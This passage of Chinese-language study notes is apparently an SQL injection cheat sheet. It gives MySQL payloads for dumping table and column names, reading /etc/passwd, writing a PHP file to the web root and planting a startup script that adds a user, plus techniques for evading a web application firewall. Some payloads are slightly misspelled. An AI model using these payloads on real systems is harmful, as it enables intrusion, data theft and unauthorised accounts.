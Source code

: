    - 爆表名 payload：

   ```mysql
   union select 1, table_name, 3 from information_schema.tables where table_schema='test' limit 0,1%23
   ```

   - 爆列名 payload：

   ```mysql
   union select 1, column_name, 3 from information_schema.columns where table_name='admin' limit 0,1%23
   ```

2. 文件读写

   - 读取关键文件

   ```mysql
   select LOADFILE('/etc/passwd');
   ```

   - 写入shell：

   ```mysql
   select '<?php phpinfo();?>' into dumpfile '/var/www/html/1.php'
   ```

   - mysql5.7之后，引入了secure-file-priv新特性来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()

3. 命令执行

   - 利用数据库对服务器写启动脚本：

   ```mysql
   union select 1,2,3,"net user cimer cimer /ad" into outfile 'C:/documents and settings/all users/start menu/programs/startup/add.bat'
   ```

### WAF绕过

- WAF：Web Application Firewall，web应用防护系统。

1. 双写关键字 &rarr; 针对WAF是用简单的非迭代的将select、or语句替换为空字符串。比如：`SEselectLECT` &rarr;replace&rarr; `SELECT`

2. 大小写绕过：应用简单的区分大小写的关键字匹配，比如php中的preg_match函数没有加/i参数

3. 编码绕过：

   1. ASCII。比如：

   ```mysql
   select * from admin where username=(CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))
   ```

   2. 其他：16进制、unicode编码、URL编码（开发程序员不知道url会自动解码一次，自己再写了url解码函数，我们可以将URL编码两次）

4. more trick：

   - `and` &rarr; `&&` ； `or` &rarr; `||` ；` select username from admin` &rarr; `select(username)from(admin)`、`select\**\username\**\from\**\admin` （%a0、%0a、%0d、%09、tab...）。

   - 科学记数法绕过：`where username=1e1union select`
